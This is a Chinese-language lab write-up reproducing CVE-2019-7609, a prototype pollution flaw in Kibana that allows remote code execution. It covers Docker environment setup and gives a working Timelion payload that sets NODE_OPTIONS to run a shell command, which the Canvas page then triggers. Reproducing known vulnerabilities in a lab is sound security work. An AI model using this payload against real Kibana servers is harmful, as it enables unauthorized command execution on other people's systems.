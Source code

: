 # Kibana 原型链污染导致任意代码执行漏洞 CVE-2019-7609

## 漏洞描述

Kibana 为 Elassticsearch 设计的一款开源的视图工具。其5.6.15和6.6.1之前的版本中存在一处原型链污染漏洞，利用这个漏洞我们可以在目标服务器上执行任意JavaScript代码。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2019-7609
- https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/
- https://slides.com/securitymb/prototype-pollution-in-kibana/#/4

## 环境搭建

Vulhub启动环境前，需要先在Docker主机上执行如下命令，修改`vm.max_map_count`配置为262144：

```
sysctl -w vm.max_map_count=262144
```

之后，执行如下命令启动Kibana 6.5.4和Elasticsearch 6.8.6：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:5601`即可看到Kibana页面。

## 漏洞复现

原型链污染发生在“Timelion”页面，我们填入如下Payload：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/touch /tmp/success");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![image-20220226195128526](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202261951761.png)

成功后，再访问“Canvas”页面触发命令`/bin/touch /tmp/success`，可见`/tmp/success`已成功创建：

![image-20220226195304443](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202261953511.png)